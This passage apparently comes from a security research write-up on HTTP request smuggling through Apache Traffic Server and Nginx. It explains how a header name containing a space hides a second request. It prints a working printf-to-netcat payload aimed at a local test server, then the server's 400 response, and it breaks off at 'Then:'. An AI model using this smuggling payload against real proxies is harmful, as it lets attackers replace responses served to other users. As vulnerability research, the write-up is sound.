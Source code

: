 Here the bad header which becomes a query is line **04**, and the **header name** is `GET http` with an header value of `//dummy-host7.example.com/index.html?bar=2 HTTP/1.1`. That's still an invalid header (the header name contains a space) but I'm pretty sure we could find some HTTP agent transferring this header (ATS is one proof of that, space character in header names were allowed).

A real attack using this trick will looks like this:

{% highlight bash %}
printf 'GET /something.html?zorg=1 HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'X-Something: "\0something"\r\n'\
'GET http://dummy-host7.example.com/index.html?replacing=1&zorg=2 HTTP/1.1\r\n'\
'\r\n'\
'GET /targeted.html?replaced=maybe&zorg=3 HTTP/1.1\r\n'\
'Host: dummy-host7.example.com\r\n'\
'\r\n'\
|nc -q 1 127.0.0.1 8007
{% endhighlight %}

This is just **2 queries** (1st one has 2 bad header, one with a NULL, one with a space in header name), for ATS it's **3 queries**.

The regular second one (`/targeted.html`) -- third for ATS --  will get the response of the hidden query (`http://dummy-host.example.com/index.html?replacing=1&zorg=2`). Check the `X-Location-echo:` added by Nginx. After that ATS adds a thirsr response, a 404, but the previous actor expects only 2 responses, and the second response **is already replaced**.

{% highlight http %}
HTTP/1.1 400 Invalid HTTP Request
Date: Fri, 26 Oct 2018 15:34:53 GMT
Connection: keep-alive
Server: ATS/7.1.1
Cache-Control: no-store
Content-Type: text/html
Content-Language: en
Content-Length: 220

<HTML>
<HEAD>
<TITLE>Bad Request</TITLE>
</HEAD>

<BODY BGCOLOR="white" FGCOLOR="black">
<H1>Bad Request</H1>
<HR>

<FONT FACE="Helvetica,Arial"><B>
Description: Could not process this request. 
</B></FONT>
<HR>
</BODY>
{% endhighlight %}

Then:
